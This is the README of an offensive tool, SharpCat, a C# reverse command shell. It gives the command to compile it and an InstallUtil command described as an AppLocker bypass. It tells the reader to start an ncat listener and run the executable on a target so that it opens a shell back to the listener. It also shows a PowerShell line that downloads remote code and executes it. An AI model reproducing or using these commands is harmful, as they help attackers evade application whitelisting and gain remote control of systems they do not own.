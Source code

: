 ```
  _________.__                        _________         __   
 /   _____/|  |__ _____ _____________ \_   ___ \_____ _/  |_ 
 \_____  \ |  |  \\__  \\_  __ \____ \/    \  \/\__  \\   __\
 /        \|   Y  \/ __ \|  | \/  |_> >     \____/ __ \|  |  
/_______  /|___|  (____  /__|  |   __/ \______  (____  /__|  
        \/      \/     \/      |__|           \/     \/      
                                                        v0.1
```

A Simple Reversed Command Shell which can be started using InstallUtil (Bypassing AppLocker) - by Cn33liz 2016

Compile:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /out:"C:\Utils\SharpCat.exe" /platform:anycpu "C:\Utils\SharpCat.cs"
```

To Bypass Applocker:

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Utils\SharpCat.exe
```

### How to use it:

* Setup a remote TCP Listener (for example ncat -lvp 443) https://nmap.org/ncat/

* Change IP/Port as needed, then Compile and run the SharpCat Executable on your target (or use the above InstallUtil trick).

Within the Remote Command Shell you can run PowerShell commands as follow:
```
C:\>PowerShell "Get-Help Invoke-*"
```
Or
```
C:\>PowerShell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/trollsploit/Get-RickAstley.ps1'); Get-RickAstley" 
```
### Todo

* Build more NetCat like functions within the code (File Transfers, Bind Shell, UDP Transport).
